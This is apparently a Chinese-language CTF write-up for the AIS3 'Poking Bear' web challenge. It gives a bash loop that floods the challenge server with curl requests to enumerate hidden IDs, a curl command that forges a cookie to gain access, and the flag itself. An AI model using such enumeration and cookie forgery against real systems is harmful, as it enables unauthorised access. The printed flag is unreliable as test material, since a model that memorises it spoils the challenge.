 # Poking Bear
## 題目

![image](https://user-images.githubusercontent.com/57281249/168678736-f76ecd4f-cf71-4842-9ca6-839b26e546d8.png)

## 解題
網頁內容是你可以選一隻 bear poke，但你要 poke 到 SECRET BEAR 才能拿到 Flag，但是 SECRET BEAR 的 bear id 他是隱藏的，然而第一隻到最後一隻的 id 是 5-999 那就用最原始的方式爆掃一波。

![image](https://user-images.githubusercontent.com/57281249/168678831-361e73c3-1421-4553-95f0-74fad6484303.png)

![image](https://user-images.githubusercontent.com/57281249/168678912-82276a1c-5dcd-452c-9c89-cc289145faa5.png)

![image](https://user-images.githubusercontent.com/57281249/168678942-0dade361-5815-4c8b-868a-db1a90d7d550.png)

``` bash
#!/bin/bash

> /tmp/output

for a in $(seq 1 1 1000)
do
    echo "$a: $(curl -X POST http://chals1.ais3.org:8987/poke -d "bear_id=$a")" >> /tmp/output &
done
```

![image](https://user-images.githubusercontent.com/57281249/168679172-e8275cf9-dde3-4a8c-93ad-d273d5f9edf4.png)

找與眾不同的那個 
``` bash
grep -v "You shouldn't poke a cat!" /tmp/output | grep -v "Poked, but nothing happened!"
```

![image](https://user-images.githubusercontent.com/57281249/168679215-cf3a67b0-3693-4872-a510-faff04ff99b2.png)

他說你不是 `bear poker` 八成要改 cookie。

``` bash
curl -X POST http://chals1.ais3.org:8987/poke --header "cookie: human=\"bear poker\"" -d "bear_id=499"
```

![image](https://user-images.githubusercontent.com/57281249/168679292-88af88d7-6247-4565-a814-babb679dc24c.png)

## Flag
`AIS3{y0u_P0l<3_7h3_Bear_H@rdLy><}`
